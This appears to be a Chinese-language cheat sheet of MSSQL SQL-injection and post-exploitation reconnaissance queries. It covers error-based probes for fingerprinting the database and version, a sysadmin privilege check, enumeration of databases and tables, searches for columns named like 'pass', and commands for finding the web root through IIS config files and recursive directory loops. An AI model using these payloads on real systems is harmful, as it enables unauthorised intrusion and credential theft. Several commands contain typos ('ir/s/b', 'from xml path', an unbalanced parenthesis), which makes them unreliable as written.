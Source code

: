 ##  1. <a name=''></a>基础查询

###  1.1. <a name='-1'></a>数据库确定

`select 1/iif((select count(*) from sysobjects )>0,1,0)`

###  1.2. <a name='-1'></a>版本

`select @@version`
`select 1/iif(SUBSTRING(@@version,22,4)='2014',1,0)`

###  1.3. <a name='-1'></a>权限

`select IS_SRVROLEMEMBER('sysadmin'));--`

###  1.4. <a name='-1'></a>站库分离

`select @@SERVERNAME`
`select host_name()`
###  1.5. <a name='-1'></a>获取数据库
当前数据库: `select db_name()`
获取全部数据库:`select name from master..sysdatabases for xml path`
###  1.6. <a name='-1'></a>数据表
获取用户表:`select * from sysobjects where xtype='U'`
获取所以用户表`select name from sysobjects where xtype='U' from xml path`

###  1.7. <a name='-1'></a>搜索含关键字的表,列
`select table_name from information_schema.tables where table_name like '%pass%'`
`select column_name,table_name from information_schema.columns where column_name like '%pass%'`

###  1.8. <a name='-1'></a>获取网站绝对路径
```cmd
高权限启动2005或者2008
C:\Windows\system32\inetsrv\metabase.xml        #iis6
C:\Windows\System32\inetsrv\config\applicationHost.config       #iis7

DIR命令寻找路径
ir/s/b c:\index.aspx
/s      #列出所有子目录下的文件和文件夹
/b      #只列出路径和文件名，别的属性全部不显示

循环盘符
for %i in (c d e f g h i j k l m n o p q r s t u v w x v z) do @(dir/s/b %i:\sql.aspx)
```
###  1.9. <a name='xxIP'></a>查看xx数据库连接的IP

```sql
select DISTINCT client_net_address,local_net_address from sys.dm_exec_connections where Session_id IN (select session_id from sys.dm_exec_Sessions where host_name IN (SELECT hostname FROM master.dbo.sysprocesses WHERE DB_NAME(dbid) = 'xx'));
```
